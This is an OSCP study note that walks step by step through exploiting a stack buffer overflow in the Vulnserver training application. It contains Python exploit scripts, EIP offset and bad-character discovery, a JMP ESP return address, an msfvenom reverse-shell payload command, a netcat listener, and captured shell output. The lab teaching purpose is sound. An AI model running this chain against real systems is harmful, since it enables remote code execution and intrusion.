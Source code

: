 ```yaml
---
aliases:
  - Exploit Development
tags:
  - tech
  - cybsec
  - certification
  - oscp
  - exploit_development
author: Mehdi N Tehrani
creat_date: 2023-12-06
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```

# Buffer Overflow
#buffer_overflow 
![[Pasted image 20231207154344.png]]

![[Pasted image 20231207180923.png]]
# Vulnserver
a vulnerable server used for learning buffer overflow attack
 - Disable Windows defender 'Real-time Virus protection'
 - Download vulnserver from https://github.com/stephenbradshaw/vulnserver
 - Run vulnserver in the Windows machine
 - Connect from the attacker machine to vulnserver: `nc $vulnserver_ip 9999`
 - Download *immunity Debugger*, install, run and attach to the vulnserver process
	 - https://www.immunityinc.com/products/debugger/

## generic_send_tcp
In the attacker machine use this command to spike or fuzz the vulnserver
`generic_send_tcp <ip> <port> <script_to_run> 0 0`


# Find EIP offset
```sh
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100
```

```python3
#!/usr/bin/python3
import sys, socket

HOST = ''
PORT = 9999
buffer = '' # copy-paste the pattern generated by pattern_create script

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((HOST, PORT))
		s.send(bytes('TRUN /.:/' + buffer, 'latin-1'))
		s.close()
	except:
		sys.exit()
```

The value found in EIP: `386F4337`
```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -q '386F4337'
[*] Exact match at offset 2003
```
EIP Offset found: **2003**

# Find badchars
#badchars
Easier way to find bad characters is to use **mona.py** script - refer to the section below **Find return address**
Here is the manual method:
- Get a list of bad chars from https://github.com/cytopia/badchars
- add to the end of the buffer
- perform the attack and check ESP
- Right-click on the value in ESP and *Follow in Dump*
- identify bad characters by finding those which do not appear in hex dump
	- if two consecutive chars are not found, most likely just the first one needs to be removed
```
shell_code = ''      # to be added later 
buffer += 'A' * (2003 - len(buffer))      # shell code and 'A' padding to fill up to EIP
buffer += 'BBBB'      # this should appear in EIP
buffer += badchars
```

![[Pasted image 20231207181936.png]]
# mona.py
#mona_py
Use this script to find the modules which do not have memory protection
download `mona.py` from https://github.com/corelan/mona and add to  `C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands\`

run in Immunity debugger using  `!mona modules`

This output shows modules used in the binary of this process. Those with all protections set to *false*  are candidates for exploitation.
![[Pasted image 20231207132812.png]]

# Find return address 
## Method 1
This is a simpler method. While immunity debugger is attached to vulnserver, run the following mona command:
`!mona jmp -r ESP -m "essfunc.dll"`

## Method 2
### nasm_shell
#nasm_shell
Use `nasm_shell.rb`  to find out the op code for `JMP ESP`
```
$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm> JMP ESP
00000000  FFE4                  jmp esp
```
### Find return address in a vulnerable module
We found out that `essfunc.dll` is a vulnerable module
Run command in immunity to find where this op code has been used
`!mona find -s '\xff\xe4' -m "essfunc.dll"`

## use mona to find badchars
```
!mona config -set workingfolder <path>   --> set working folder to store output
!mona bytearray -cpb "\x00"       --> generate badchars list and remove \x00
!mona compare -f <path>\bytearray.bin -a <address>     --> the address is found in ESP when access violation happens. This returns the bad chars
```

# Use Shell code and Overwrite EIP
- Use metasploit to build a reverse shell payload 
```
msfvenom -p windows/shell_reverse_tcp LHOST="<attacker_ip>" LPORT=<port> -f c -a x86 -b "\x00"
                                                                       ^ file type
                                                                            ^ architecture
                                                                                   ^ bad characters to exclude
```

- Add the generated shell code bytes to python script
```
shell_code = ()      # shell code bytes generated by msfvenom is added here
buffer += 'A' * (2003 - len(buffer))      # 'A' padding to fill up to EIP
buffer += '\xaf\x11\x50\x62'      # return address found by mona - should populate EIP
nop_slide = '\x90' * 32       # nop slide to provide some safety padding for the shell code
buffer += nop_slide + shell_code
```
- Set up a listener on the attacker machine:  e.g. `nc -nvlp 7777`
- Perform the attack!
```
C:\Users\mnadj\Desktop\vulnserver>whoami
whoami
mnthw10v\mnadj

C:\Users\mnadj\Desktop\vulnserver>systeminfo
systeminfo

Host Name:                 MNTHW10V
OS Name:                   Microsoft Windows 10 Home
OS Version:                10.0.19044 N/A Build 19044
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
[SNIPPED]
```
SUCCESS!
